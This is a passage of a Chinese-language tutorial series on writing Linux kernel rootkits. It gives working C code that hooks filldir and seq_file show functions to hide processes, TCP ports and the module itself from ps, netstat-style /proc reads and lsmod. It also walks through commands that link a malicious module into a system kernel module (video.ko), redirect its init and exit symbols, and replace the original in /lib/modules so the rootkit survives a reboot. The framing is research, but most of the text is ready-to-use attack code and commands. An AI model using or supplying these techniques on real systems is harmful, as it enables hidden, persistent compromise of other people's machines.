        .llseek         = ext4_dir_llseek,
        .read       = generic_read_dir,
        .iterate    = ext4_readdir,
        .unlocked_ioctl = ext4_ioctl,
   #ifdef CONFIG_COMPAT
        .compat_ioctl   = ext4_compat_ioctl,
   #endif
        .fsync      = ext4_sync_file,
        .open       = ext4_dir_open,
        .release    = ext4_release_dir,
   };

``ext4_readdir`` 经过各种各样的操作之后会通过 ``filldir``
把目录里的项目一个一个的填到 ``getdents``
返回的缓冲区里，缓冲区里是一个个的 ``struct linux_dirent`` 。
我们的隐藏方法就是在 ``filldir`` 里把需要隐藏的项目给过滤掉。

4. 隐藏进程
+++++++++++

Linux 上纯用户态枚举并获取进程信息， `/proc`_ 是唯一的去处。
所以，对用户态隐藏进程，我们可以隐藏掉 `/proc`_ 下面的目录，
这样用户态能枚举出来进程就在我们的控制下了。
读者现在应该些许体会到为什么文件隐藏是本文的重点内容了。

我们修改一下上面隐藏文件时的假 ``filldir`` 即可实现进程隐藏，
如下所示。

.. code-block:: c

   int
   fake_filldir(struct dir_context *ctx, const char *name, int namlen,
                loff_t offset, u64 ino, unsigned d_type)
   {
       char *endp;
       long pid;

       // 把字符串变成长整数。
       pid = simple_strtol(name, &endp, 10);

       if (pid == SECRET_PROC) {
           // 是我们需要隐藏的进程，直接返回。
           fm_alert("Hiding pid: %ld", pid);
           return 0;
       }

       /* pr_cont("%s ", name); */

       // 不是需要隐藏的进程，交给真的 ``filldir`` 填到缓冲区里。
       return real_filldir(ctx, name, namlen, offset, ino, d_type);
   }

实验
****

笔者选择隐藏 pid 1 来做演示。在使用 systemd_ 的系统上，
pid 1 总是 systemd_ ，看下图，
我们可以看到加载我们的模块（ ``pshidko`` ）之后，
``ps -A`` 看不到 systemd_ 了；把 ``pshidko`` 卸载掉，
systemd_ 就显示出来了。

.. image:: images/pshid.png


5. 隐藏端口
+++++++++++

向用户态隐藏端口，
其实就是在用户进程读 `/proc`_ 下面的相关文件获取端口信息时，
把需要隐藏的的端口的内容过滤掉，
使得用户进程读到的内容里面没有我们想隐藏的端口。

具体说来，看下面的表格。

============  ==================  =======================  =================
网络类型      `/proc`_ 文件       内核源码文件             主要实现函数
------------  ------------------  -----------------------  -----------------
TCP_ / IPv4_  ``/proc/net/tcp``   ``net/ipv4/tcp_ipv4.c``  ``tcp4_seq_show``
------------  ------------------  -----------------------  -----------------
TCP_ / IPv6_  ``/proc/net/tcp6``  ``net/ipv6/tcp_ipv6.c``  ``tcp6_seq_show``
------------  ------------------  -----------------------  -----------------
UDP_ / IPv4_  ``/proc/net/udp``   ``net/ipv4/udp.c``       ``udp4_seq_show``
------------  ------------------  -----------------------  -----------------
UDP_ / IPv6_  ``/proc/net/udp6``  ``net/ipv6/udp.c``       ``udp6_seq_show``
============  ==================  =======================  =================

本小节以 TCP_ / IPv4_ 为例，其他情况读者可举一反三。

文件的第一行是每一列的含义，
后面的行就是当前网络连接（ socket_ / 套接字）的具体信息。
这些信息是通过 ``seq_file`` 接口在 ``/proc`` 中暴露的。
``seq_file`` 拥有的操作函数如下，我们需要关心是 ``show`` 。

.. code-block:: c

   struct seq_operations {
        void * (*start) (struct seq_file *m, loff_t *pos);
        void (*stop) (struct seq_file *m, void *v);
        void * (*next) (struct seq_file *m, void *v, loff_t *pos);
        int (*show) (struct seq_file *m, void *v);
   };


前面我们提到了隐藏端口也就是在进程读取 ``/proc/net/tcp`` 等文件
获取端口信息时过滤掉不希望让进程看到的内容，具体来讲，
就是将 ``/proc/net/tcp`` 等文件的 ``show``
函数篡改成我们的钩子函数，
然后在我们的假 ``show`` 函数里进行过滤。

我们先看看用来描述 ``seq_file`` 的结构体，即 ``struct seq_file`` ，
定义于 ``linux/seq_file.h`` 。
``seq_file`` 有一个缓冲区，也就是 ``buf`` 成员，
容量是 ``size`` ，已经使用的量是 ``count`` ；
理解了这几个成员的作用就能理解用于过滤端口信息的假
``tcp_seq_show`` 了。

.. code-block:: c

   struct seq_file {
        char *buf; // 缓冲区。
        size_t size; // 缓冲区容量。
        size_t from;
        size_t count; // 缓冲区已经使用的量。
        size_t pad_until;
        loff_t index;
        loff_t read_pos;
        u64 version;
        struct mutex lock;
        const struct seq_operations *op;
        int poll_event;
        const struct file *file;
        void *private;
   };

钩 ``/proc/net/tcp`` 等文件的 ``show``
函数的方法与之前讲隐藏文件钩 ``iterate`` 的方法类似，
用下面的宏可以通用的钩这几个文件 ``seq_file`` 接口里面的操作函数。

.. code-block:: c

   # define set_afinfo_seq_op(op, path, afinfo_struct, new, old)   \
       do {                                                        \
           struct file *filp;                                      \
           afinfo_struct *afinfo;                                  \
                                                                   \
           filp = filp_open(path, O_RDONLY, 0);                    \
           if (IS_ERR(filp)) {                                     \
               fm_alert("Failed to open %s with error %ld.\n",     \
                        path, PTR_ERR(filp));                      \
               old = NULL;                                         \
           }                                                       \
                                                                   \
           afinfo = PDE_DATA(filp->f_path.dentry->d_inode);        \
           old = afinfo->seq_ops.op;                               \
           fm_alert("Setting seq_op->" #op " from %p to %p.",      \
                    old, new);                                     \
           afinfo->seq_ops.op = new;                               \
                                                                   \
           filp_close(filp, 0);                                    \
       } while (0)

最后，我们看看假 ``show`` 函数是如何过滤掉端口信息的。

**注1** ： ``TMPSZ`` 是 150，内核源码里是这样定义的。
换句话说，``/proc/net/tcp``
里的每一条记录都是 149 个字节（不算换行）长，
不够的用空格补齐。

**注2** ： 我们不用 ``TMPSZ`` 也可以，并且会更加灵活，
具体细节请看下面隐藏内核模块时
``/proc/modules`` 的假 ``show`` 函数是怎么处理的。

.. code-block:: c

   int
   fake_seq_show(struct seq_file *seq, void *v)
   {
       int ret;
       char needle[NEEDLE_LEN];

       // 把端口转换成 16 进制，前面带个分号，避免误判。
       // 用来判断这项记录是否需要过滤掉。
       snprintf(needle, NEEDLE_LEN, ":%04X", SECRET_PORT);
       // real_seq_show 会往 buf 里填充一项记录
       ret = real_seq_show(seq, v);

       // 该项记录的起始 = 缓冲区起始 + 已有量 - 每条记录的大小。
       if (strnstr(seq->buf + seq->count - TMPSZ, needle, TMPSZ)) {
           fm_alert("Hiding port %d using needle %s.\n",
                    SECRET_PORT, needle);
           // 记录里包含我们需要隐藏的的端口信息，
           // 把 count 减掉一个记录大小，
           // 相当于把这个记录去除掉了。
           seq->count -= TMPSZ;
       }

       return ret;
   }

实验
****

我们拿 TCP_ / IPv4_ 111 端口来做演示，
读者需要根据实际测试时的环境做必要改动。
如图，加载 ``pthidko`` 之前，我们可以看到 111 端口处于监听状态；
加载之后，这条记录不见了，被隐藏起来；
把 ``pthidko`` 卸载掉，这条记录又显示出来了。

.. image:: images/pthid.png

6. 隐藏内核模块
+++++++++++++++

`《Linux Rootkit 系列一： LKM 的基础编写及隐藏》`_
一文里提到了隐藏内核模块的两种方式，
一种可以从 ``lsmod`` 中隐藏掉，
另一种可以从 ``/sys/module`` 里隐藏掉。
然而，这两种隐藏方式都使得模块没法卸载了。
在我们开发的初级阶段，这一点也不方便调试，笔者暂时就不讲这两个了。

我们看看另外的思路。从 ``/sys/module`` 里隐藏的话，
我们使用之前隐藏文件的方式隐藏掉就可以了。
我想聪明的读者应该想到了这点，这再一次证明了文件隐藏的意义。

那么怎么从 ``lsmod`` 里隐藏掉呢。
仔细回想一下，既然 ``lsmod`` 的数据来源是 ``/proc/modules`` ，
那用我们隐藏端口时采用的方式就好了：
钩掉 ``/proc/modules`` 的 ``show`` 函数，
在我们的假 ``show`` 函数里过滤掉我们想隐藏的模块。

粗略地浏览内核源码，我们可以发现，
``/proc/modules`` 的实现位于 ``kernel/module.c`` ，
并且主要的实现函数是 ``m_show`` 。

接下来的问题是，
我们怎么钩这个文件 ``seq_file`` 接口里的 ``show`` 函数呢，
钩法与 ``/proc/net/tcp`` 并不一样，但是类似，请看下面的宏。

.. code-block:: c

   # define set_file_seq_op(opname, path, new, old)                    \
       do {                                                            \
           struct file *filp;                                          \
           struct seq_file *seq;                                       \
           struct seq_operations *seq_op;                              \
                                                                       \
           fm_alert("Opening the path: %s.\n", path);                  \
           filp = filp_open(path, O_RDONLY, 0);                        \
           if (IS_ERR(filp)) {                                         \
               fm_alert("Failed to open %s with error %ld.\n",         \
                        path, PTR_ERR(filp));                          \
               old = NULL;                                             \
           } else {                                                    \
               fm_alert("Succeeded in opening: %s\n", path);           \
               seq = (struct seq_file *)filp->private_data;            \
               seq_op = (struct seq_operations *)seq->op;              \
               old = seq_op->opname;                                   \
                                                                       \
               fm_alert("Changing seq_op->"#opname" from %p to %p.\n", \
                        old, new);                                     \
               disable_write_protection();                             \
               seq_op->opname = new;                                   \
               enable_write_protection();                              \
           }                                                           \
       } while (0)

这个宏与之前写的宏非常类似，唯一的不同，
并且读者可能不能理解的是下面这一行。

.. code-block:: c

   seq = (struct seq_file *)filp->private_data;

我想，读者的问题应该是：
``struct file`` 的 ``private_data`` 成员为什么会是我们要找的
``struct seq_file`` 指针？

请看内核源码。下面的片段是 ``/proc/modules`` 的初始部分，
我们想要做的是钩掉 ``m_show`` 。
纵观源码，引用了 ``modules_op`` 的只有 ``seq_open`` 。

.. code-block:: c

   static const struct seq_operations modules_op = {
        .start  = m_start,
        .next   = m_next,
        .stop   = m_stop,
        .show   = m_show
   };

   static int modules_open(struct inode *inode, struct file *file)
   {
        return seq_open(file, &modules_op);
   }

那我们跟进 ``seq_open`` 看看，
seq_open 的实现位于 ``fs/seq_file.c`` 。


.. code-block:: c

   int seq_open(struct file *file, const struct seq_operations *op)
   {
        struct seq_file *p;

        WARN_ON(file->private_data);

        // 分配一个 ``struct seq_file`` 的 内存。
        p = kzalloc(sizeof(*p), GFP_KERNEL);
        if (!p)
            return -ENOMEM;

        // 读者看到这一行应该就能理解了。
        // 对 ``/proc/modules`` 而言，
        // ``struct file`` 的 ``private_data`` 指向的就是
        // 他的 ``struct seq_file``。
        file->private_data = p;

        mutex_init(&p->lock);
        // 把 ``struct seq_file`` 的 ``op`` 成员赋值成 ``op``，
        // 这个 ``op`` 里就包含了我们要钩的 ``m_show`` 。
        p->op = op;

        // 这儿省略若干代码。

        return 0;
   }

这时候，我们可以看看 ``/proc/modules`` 的假 ``show`` 函数了。
过滤逻辑是很容易理解的；
读者应该重点注意一下 ``last_size`` 的计算，
这也就是笔者在讲端口隐藏时说到我们可以不用 TMPSZ ，
我们可以自己计算这一条记录的大小。
自己计算的灵活性就在于，就算每个记录的大小不是同样长的，
我们的代码也能正常工作。

**注** ： ``/proc/modules`` 里的每条记录长度确实不是一样，有长有短。

.. code-block:: c

   int
   fake_seq_show(struct seq_file *seq, void *v)
   {
       int ret;
       size_t last_count, last_size;

       // 保存一份 ``count`` 值，
       // 下面的 ``real_seq_show`` 会往缓冲区里填充一条记录，
       // 添加完成后，seq->count 也会增加。
       last_count = seq->count;
       ret =  real_seq_show(seq, v);

       // 填充记录之后的 count 减去填充之前的 count
       // 就可以得到填充的这条记录的大小了。
       last_size = seq->count - last_count;

       if (strnstr(seq->buf + seq->count - last_size, SECRET_MODULE,
                   last_size)) {
           // 是需要隐藏的模块，
           // 把缓冲区已经使用的量减去这条记录的长度，
           // 也就相当于把这条记录去掉了。
           fm_alert("Hiding module: %s\n", SECRET_MODULE);
           seq->count -= last_size;
       }

       return ret;
   }

实验
****

我们选择隐藏模块自己（ ``kohidko`` ）来做演示。看下图。
加载 ``kohidko`` 之后，
``lsmod`` 没有显示出我们的模块，
``/sys/module`` 下面也列举不到我们的模块；
并且，右侧 ``dmesg`` 的日志也表明我们的假 ``filldir`` 与假 ``show``
函数起了过滤作用。

.. image:: images/kohid.png

第二部分：未来展望
------------------

至此，我们讨论了大部分作为一个 Rootkit 必备的基本功能；
但是，我们的代码依旧是零散的一个一个的实验，而不是一个有机的整体。
当然，笔者的代码尽可能的做好了布局组织与模块化，
这能给我们以后组装的时候节省一些力气。

在接下来的文章里，一方面，
我们会把这些一个一个零散的实验代码组装成一个能进行实验性部署的
Rootkit。要实现这个目标，
除了组装，我们还需要释放程序（ ``Dropper`` ），
还需要增加远程控制（ ``Command & Control`` ）能力。

再者，我们可能会着手讨论 Rootkit 的检测与反检测。
还有就是讨论当前 Linux Rootkit 的实际发展状态，
比如分析已知用于实际攻击的 Rootkit 所采用的技术，
分析我们的技术水平差异，并从中学习如何实现更先进的功能。

最后，我们还可能改善兼容性与拓展性。
我们现在的代码只在比较新的内核版本（比如 4.5.x / 4.6.x）上测试过。
而且，我们压根就没有考虑已知的兼容性问题。
因而，要想在 3.x，甚至 2.x 上跑，
我们还需要花时间兼容不同版本的内核。
然后，我们还希望往其他架构上发展（比如 ARM_ ）。

**下车，走好。**

第三部分：参考资料与延伸阅读
----------------------------

1. 参考资料
+++++++++++

- `Linux Cross Reference`_
- `This is what a root debug backdoor in a Linux kernel looks like <http://www.theregister.co.uk/2016/05/09/allwinners_allloser_custom_kernel_has_a_nasty_root_backdoor/>`_
- `mncoppola/suterusu: An LKM rootkit targeting Linux 2.6/3.x on x86(_64), and ARM <https://github.com/mncoppola/suterusu>`_
- Notification Chains in Linux Kernel `Part 01 <http://codingfreak.blogspot.com/2012/01/notification-chains-in-linux-part-01.html>`_ `Part 02 <http://codingfreak.blogspot.com/2012/01/notification-chains-in-linux-kernel.html>`_ `Part 03 <http://codingfreak.blogspot.com/2012/02/notification-chains-in-linux-kernel.html>`_

2. 延伸阅读
+++++++++++

- `Suterusu Rootkit: Inline Kernel Function Hooking on x86 and ARM <https://poppopret.org/2013/01/07/suterusu-rootkit-inline-kernel-function-hooking-on-x86-and-arm/>`_


.. _IDT: https://en.wikipedia.org/wiki/Interrupt_descriptor_table
.. _Interrupt descriptor table: IDT_
.. _MSR: https://en.wikipedia.org/wiki/Model-specific_register
.. _Model-specific register: MSR_
.. _MSR_LSTAR: http://lxr.free-electrons.com/ident?i=MSR_LSTAR
.. _Inline Hooking: https://en.wikipedia.org/wiki/Hooking#API.2FFunction_Hooking.2FInterception_Using_JMP_Instruction
.. _全志: http://www.allwinnertech.com/
.. _AllWinner: `全志`_
.. _uid: https://en.wikipedia.org/wiki/User_identifier
.. _euid: uid_
.. _/proc: https://en.wikipedia.org/wiki/Procfs
.. _API: https://en.wikipedia.org/wiki/Application_programming_interface
.. _代码仓库: https://github.com/NoviceLive/research-rootkit
.. _Linux Cross Reference: http://lxr.free-electrons.com/
.. _外媒报道：中国知名ARM制造商全志科技在Linux中留下内核后门: http://www.freebuf.com/news/104270.html
.. _FB: http://www.freebuf.com/
.. _RCE: https://en.wikipedia.org/wiki/Arbitrary_code_execution
.. _LPE: https://en.wikipedia.org/wiki/Privilege_escalation
.. _《Linux Rootkit 系列一： LKM 的基础编写及隐藏》: http://www.freebuf.com/articles/system/54263.html
.. _ext4: https://en.wikipedia.org/wiki/Ext4
.. _systemd: https://www.freedesktop.org/wiki/Software/systemd/
.. _TCP: https://en.wikipedia.org/wiki/Transmission_Control_Protocol
.. _UDP: https://en.wikipedia.org/wiki/User_Datagram_Protocol
.. _IPv4: https://en.wikipedia.org/wiki/IPv4
.. _IPv6: https://en.wikipedia.org/wiki/IPv6
.. _socket: https://en.wikipedia.org/wiki/Network_socket
.. _ARM: https://www.arm.com/
.. _Kali: https://www.kali.org/


Linux Rootkit 系列五：感染系统关键内核模块实现持久化
====================================================


rectigu@gmail.com, 二〇一六年七月。

前言
----

照旧，本文所需的相关代码位于如下代码仓库：
https://github.com/NoviceLive/research-rootkit。

**测试建议：为了愉快地 Happy Hakcing，请不要在物理机玩火。**

概要
----

本文分为两大部分，
第一部分是基于链接与修改符号表感染并劫持
目标内核模块的初始函数与退出函数，使其成为寄生的宿主，
实现隐蔽与持久性。第二部分为结合三个实际例子
（ ``lssec``, ``lssym``, ``setsym`` ）的ELF 文件解析起步，
这一部分提供了我们第一部分进行 Happy Hacking 所需要的工具基础，
``setsym`` ，同时也为更好的理解第一部分提供帮助信息。


第一部分：感染系统关键内核模块实现持久化
----------------------------------------

1. 编译并安装所需的 ELF 文件修改程序
++++++++++++++++++++++++++++++++++++

如果你之前已经 ``git clone`` 过代码仓库，
那么现在就可以简单地 ``git pull`` 来获取最新的改动。


进入 ``lssec.c``, ``lssym.c``, ``setsym.c`` 所在的文件夹，
编译并安装这几个程序。

::

   $ make
   $ sudo make install

这时候，这几个程序就已经安装到 ``/usr/bin`` 目录下了，
可以使用了。

**注 1** ： ``lssec`` 相当于自己造的一个功能不完善的
``readelf -S`` ，
``lssym`` 相当于自己造的一个功能不完善的 ``readelf -s``
或者 ``objdump -t`` 。
因此，只有 ``setsym`` 是必须的，其他两个可以不要。
笔者写 ``lssec`` 与 ``lssym``
是为了在后面讲解 ELF 解析的时候用作起步实例。

**注 2** ：我们会在文章的第二部分拿这几个程序当实际的例子来讲解
ELF 文件的结构与解析。现在，我们直接拿起用就好了。

**注 3** ： 这几个程序只支持 64 比特 ELF 文件。
如果你需要支持 32 比特 ELF 文件的工具，除了可以自行修改，
还可以使用参考资料的某篇文章提供的 ``elfchger`` ，
而这个工具只支持 32 比特 ELF 文件。


2. 内核模块函数的重定位与挂钩
+++++++++++++++++++++++++++++

演示用的简单内核模块
********************

我们拿下面的这个简单的内核模块作试验演示。

.. code-block:: c

   int
   noinj_init(void)
   {
       pr_alert("noinj: %s\n", "Greetings the World!");

       return 0;
   }


   void
   noinj_exit(void)
   {
       pr_alert("noinj: %s\n", "Farewell the World!");

       return;
   }


   module_init(noinj_init); // 请注意，这次我们使用了个性化的初始函数名，``noinj_init`` 。
   module_exit(noinj_exit); // 退出函数也是。


   int
   fake_init(void) // 用来演示重定位表项挂钩的假初始函数。
   {
       noinj_exit(); // 先调用真的初始函数。

       pr_alert("==> NOINJ: %s\n", "GR33TINGS THE W0RLD!");

       return 0;
   }


   int
   fake_exit(void) // 用来演示重定位表项挂钩的假退出函数。
   {
       noinj_exit(); // 先调用真的退出函数。

       pr_alert("==> NOINJ: %s\n", "FAR3W311 THE W0RLD!");

       return 0;
   }

编译之后我们可以得到一个， ``noinj.ko`` ，这是一个可重定位文件。
不妨用 ``file`` 查看一下，如下所示。

::

   $ file noinj.ko
   noinj.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=9b497fbb081f193856750e1c2fad93b0c3331edf, not stripped

模块的编译过程与 module_init / module_exit 的分析
*************************************************

生成 ``noinj.ko`` 的大致过程是这样子的：
编译器首先将所有源文件编译成目标文件，
（拿 ``noinj`` 举个例子，就是 ``noinj.c`` -> ``noinj.o`` ），
同时，编译器会自动生成一个源文件，
（在我们的例子中叫 ``noinj.mod.c`` ），
编译之后（即 ``noinj.mod.c`` -> ``noinj.mod.o`` ）
再与已经编译好的目标文件（即 ``noinj.o`` ）链接到一起，
得到一个可重定位文件（即 ``noinj.ko`` ）。

``noinj.mod.c`` 中的内容，
我们主要关心 ``__this_module`` 的定义，如下。

.. code-block:: c

   __visible struct module __this_module
   __attribute__((section(".gnu.linkonce.this_module"))) = { // 将 __this_module 变量放到 .gnu.linkonce.this_module 区间里。
        .name = KBUILD_MODNAME,
        .init = init_module, // 填充初始函数为 init_module
   #ifdef CONFIG_MODULE_UNLOAD
        .exit = cleanup_module, // 填充退出函数为 cleanup_module
   #endif
        .arch = MODULE_ARCH_INIT,
   };

我们在编写内核模块的时候不一定会使用
``init_module`` 与 ``cleanup_module``
作为初始函数与退出函数的名字；而是使用个性化的名字，
比如 ``noinj_init`` 与 ``noinj_exit`` ，
再用 ``module_init`` 与 ``module_exit``
注册我们的个性化命名的函数为初始函数与退出函数。
这时候问题来了， ``module_init`` 与 ``module_exit``
是怎么完成从个性化名字（比如 ``noinj_init`` 与 ``noinj_exit`` ）
到标准名字（即 ``init_module`` 与 ``cleanup_module`` ）的联系呢？
请看源代码，位于 ``linux/module.h`` 。

.. code-block:: c

   /* Each module must use one module_init(). */
   #define module_init(initfn)                  \
        static inline initcall_t __inittest(void)       \
        { return initfn; }                  \
        int init_module(void) __attribute__((alias(#initfn))); // 请看这里，使用 ``GCC`` 编译器的拓展功能，函数别名属性，将个性化名字与标准名字 ``init_module`` 关联起来。

   /* This is only required if you want to be unloadable. */
   #define module_exit(exitfn)                  \
        static inline exitcall_t __exittest(void)       \
        { return exitfn; }                  \
        void cleanup_module(void) __attribute__((alias(#exitfn))); // ``cleanup_module`` 也是。

观察重定位记录与符号表
**********************

下面我们看看这个内核模块的重定位记录： ``readelf -r noinj.ko`` ，
重点看看 ``.gnu.linkonce.this_module`` 的记录，
包含 ``init_module`` 与 ``cleanup_module`` 符号。

::

   Relocation section '.rela.gnu.linkonce.this_module' at offset 0x1aa88 contains 2 entries:
     Offset          Info           Type           Sym. Value    Sym. Name + Addend
   000000000158  001c00000001 R_X86_64_64       0000000000000000 init_module + 0
   0000000002f8  001a00000001 R_X86_64_64       0000000000000020 cleanup_module + 0

请结合符号表（ ``readelf -s noinj.ko`` ）来看。

::

   $ readelf -s noinj.ko
   Symbol table '.symtab' contains 34 entries:
      Num:    Value          Size Type    Bind   Vis      Ndx Name
        0: 0000000000000000     0 NOTYPE  LOCAL  DEFAULT  UND
        // 这儿省略一部分。
       25: 0000000000000000   832 OBJECT  GLOBAL DEFAULT   11 __this_module
       26: 0000000000000020    24 FUNC    GLOBAL DEFAULT    2 cleanup_module // 真的退出函数的记录，名字是 cleanup_module，Value 是 0x20。
       27: 0000000000000000     0 NOTYPE  GLOBAL DEFAULT  UND __fentry__
       28: 0000000000000000    27 FUNC    GLOBAL DEFAULT    2 init_module // 真的初始函数的记录，名字是 init_module， Value 是 0x00。
       29: 0000000000000040    46 FUNC    GLOBAL DEFAULT    2 fake_init // 假的初始函数的记录，Value 是 0x40。
       30: 0000000000000000    27 FUNC    GLOBAL DEFAULT    2 noinj_init // 真的初始函数的记录，名字是 noinj_init， 但 Value 是 0x00，与 init_module 一样。
       31: 0000000000000020    24 FUNC    GLOBAL DEFAULT    2 noinj_exit // 真的退出函数的记录，名字是 noinj_exit， 但 Value 是 0x20，与 cleanup_module 一样。
       32: 0000000000000000     0 NOTYPE  GLOBAL DEFAULT  UND printk
       33: 0000000000000070    46 FUNC    GLOBAL DEFAULT    2 fake_exit // 假的初始函数的记录，Value 是 0x70。


如果我们将 ``init_module`` 符号的值，改成 ``fake_init`` 符号的值，
那么在模块加载进行符号解析、重定位的时候，
``init_module`` 会解析、定位到 ``fake_init`` ，
从而导致我们的假初始函数被执行，
而真的初始函数不会执行（当然，
因为我们假初始函数会调用真的初始函数，所以真的初始函数也会执行，
但是这已经是在我们的掌控之下了）。

``cleanup_module`` 类似。下面我们通过实验来演示这一点。

实验演示符号表项的劫持
**********************

``setsym`` 的用法是这样子的，有两种：一，传递两个位置参数，
第一个是内核模块路径，第二个是符号名，
这时 ``setsym`` 会把这个符号的值打印出来；二，传递三个位置参数，
第一个是内核模块路径，第二个是符号名，第三个是值，
这时 ``setsym`` 会把这个符号的值修改成给定的值。
简言之，如下。

::

   // 第一种用法，获取符号的值。
   setsym <module_path> <symbol_name>

   // 第二种用法，设置符号的值。
   setsym <module_path> <symbol_name> <symbol_value>

实验操作如下。

**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 构建模块。
   $ make

   // 复制一份副本用于对照演示。
   $ cp noinj.ko infected.ko

   // 将副本的 init_module 符号值改成 fake_init 符号值。
   $ setsym infected.ko init_module $(setsym infected.ko fake_init)

   // 将副本的 cleanup_module 符号值改成 fake_exit 符号值。
   $ setsym infected.ko cleanup_module $(setsym infected.ko fake_exit)
   // 加载原始的模块。
   $ insmod noinj.ko

   // 卸载载原始的模块。
   $ rmmod noinj

   // 加载修改过的副本。
   $ insmod infected.ko

   // 卸载修改过的副本。
   $ rmmod noinj // 注意模块名要用宿主的，即 noinj

正常情况下，系统应该调用真的初始函数，
而假的初始函数根本没有执行的机会，因为没人调用了它。

但是对比原本与副本加载、卸载过程中 ``dmesg`` 打印出来的消息，
可以得知，副本里的真初始函数是被假初始函数调用的，
而假初始函数则是被系统调用的。
也就是说，完成对初始函数的劫持 / 挂钩。

效果如下图所示。

.. image:: images/noinj.png


3. 感染一个示例内核模块
+++++++++++++++++++++++

在上一小节，我们演示了将初始函数与退出函数劫持成
同一个模块里的另一个函数，
现在我们看看怎样把一个良民模块的初始函数与退出函数
劫持成另一个恶意模块的初始函数与退出函数。
此外，恶意模块的代码也要注入到良民模块里，
这样，恶意模块才能起作用。

修改 fshid 使其便于寄生
***********************

这次我们用的良民模块跟上面那个 ``noinj`` 没什么本质差别，
换了下名字来彰显代码注入这个话题，所以叫 ``codeinj`` 。

恶意模块的话，就用 `笔者的上一篇文章`_ 里的 ``fshid`` ；
注意，我们需要对 ``fshid`` 作一些必要的改动。
一来，要把初始函数从 ``init_module`` 改成 ``fshid_init`` ，
``cleanup_module`` 也类似改成 ``fshid_exit`` ；
这是为了避免与良民模块出现名字冲突。
二来，我们要在 ``fshid_init`` 里调用良民模块（即 ``codeinj`` ）
的初始函数（即 ``codeinj_init`` ），
类似地， ``fshid_exit`` 里调用 ``codeinj_exit`` ；
这是为了让我们的挂钩对宿主模块（即良民模块）的功能不产生影响，
使别人观察不到我们的恶意模块的存在。

将 fshid 感染到示例模块中
*************************

具体操作如下。

**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 构建已经修改好适合寄生的恶意模块。
   $ (cd fshid && make --quiet)

   // 构建良民模块（即宿主模块）。
   $ make --quiet

   // 将寄生模块与宿主模块链接到一起。
   // 请注意顺序。
   $ ld -r codeinj.ko fshid/fshidko.ko -o infected.ko

   // 将寄生后宿主的 init_module 符号值改成 fshid_init 符号值
   $ setsym infected.ko init_module $(setsym infected.ko fshid_init)

   // 将寄生后宿主的 cleanup_module 符号值改成 fshid_exit 符号值
   $ setsym infected.ko cleanup_module $(setsym infected.ko fshid_exit)

   // 加载被寄生了的宿主。
   $ insmod infected.ko

   // 测试看看那个文件能不能列举出来：结果应该是不能。
   $ ls -al fshid/test

   $ rmmod codeinj // 注意模块名要用宿主的，即 codeinj

   // 再测试看看那个文件能不能列举出来：结果应该是能。
   $ ls -al fshid/test

参考效果
********

结果如图。

.. image:: images/codeinj.png

4. 感染系统中的内核模块
+++++++++++++++++++++++

现在，我们开始做点正事，感染系统关键内核模块搭顺风车实现持久化。

确定目标并采集必要信息
**********************

在系统启动的时候，有一些内核模块会自动加载，
Rootkit 的内核模块可以寄生到这些模块上，实现实现持久化。

通过 ``lsmod`` 随意找个没被使用的模块，笔者就拿 ``video`` 动手了，
并在滚到最新的 Kali （ ``4.6.0-kali1-amd64`` ）上实践，
读者需要根据自己动手的环境进行一些必要的调整。

先找到它的文件。
尝试在 ``/lib/modules/$(uname -r)`` 目录下面查找一下，
``find /lib/modules/$(uname -r) -name video`` 。结果如下。

::

   $ find /lib/modules/$(uname -r) -name video.ko
   /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko

接下来尝试判断他的初始函数与退出函数的个性名字。
笔者顺手找到了 ``video`` 模块的源代码，
位于内核源码（笔者手里的版本是 4.6.2）树的 ``drivers/acpi/acpi_video.c`` 。
摘取关键片段如下，我们可以看到 ``video`` 模块的初始函数与退出函数是
``acpi_video_init`` 与 ``acpi_video_exit`` 。

::

   module_init(acpi_video_init);
   module_exit(acpi_video_exit);

将 fshid 感染到系统模块中
*************************

一切准备就绪，开始行动。

**提示** ：下面的操作已经写在代码仓库里对应目录的
``infect.sh`` 里了。

::

   // 复制到实验的当前目录。
   $ cp /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko .

   // 检查一下我们对初始函数与退出函数的判断是否正确。
   $ readelf -s video.ko | grep -e grep -e acpi_video_init -e acpi_video_exit

   // 把它的初始函数与退出函数的绑定改成 global 。
   // 后面会解释一下这一步的必要性。
   $ objcopy video.ko gvideo.ko --globalize-symbol acpi_video_init --globalize-symbol acpi_video_exit

   // 检查一下 objcopy 是否成功。
   $ readelf -s gvideo.ko | grep -e grep -e acpi_video_init -e acpi_video_exit

   // 构建已经修改好适合寄生的恶意模块。
   // 后面还会解释一下要怎么修改。
   $ (cd fshid && make --quiet)

   // 将寄生模块与宿主模块链接到一起。
   // 请注意顺序。
   $ ld -r gvideo.ko fshid/fshidko.ko -o infected.ko

   // 将寄生后宿主的 init_module 符号值改成 fshid_init 符号值
   $ setsym infected.ko init_module $(setsym infected.ko fshid_init)

   // 将寄生后宿主的 cleanup_module 符号值改成 fshid_exit 符号值
   $ setsym infected.ko cleanup_module $(setsym infected.ko fshid_exit)

   // 卸载系统本来就加载了的 video 模块。
   $ rmmod video

   // 加载寄生了恶意模块的 video 的模块。
   // 观察 dmesg 的输出。
   $ insmod infected.ko

   // 测试隐藏的那个文件能不能列举出来：结果应该是不能。
   $ ls -al fshid/test

   $ rmmod video // 注意模块名要用宿主的，即 video

   // 再测试隐藏的那个文件能不能列举出来：结果应该是能。
   $ ls -al fshid/test

参考效果与重启测试
******************

测试效果截图如下。

.. image:: images/video.png

如果测试正常，那么我们可以用被感染的模块替换调原来的那个健康的模块了。

::

   // 备份健康的 video 模块。
   $ mv /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko.bak
   // 把被感染的 video 模块复制到原来健康模块的位置。
   $ cp infected.ko /lib/modules/4.6.0-kali1-amd64/kernel/drivers/acpi/video.ko

   // 重启系统。
   $ reboot

系统重启之后检查 dmesg 日志并测试是否可以查看到我们的隐藏文件，
以此来判断我们的恶意模块是否正常工作。

看下图，我们可以看到，在系统启动的初期，
我们感染到 ``video`` 模块里的代码打印出来的启动信息。
显然，我们的感染是成功。

.. image:: images/startup.png

系统重启之后，进行文件隐藏是否起作用的测试。参考结果如下图。

.. image:: images/rebooted.png

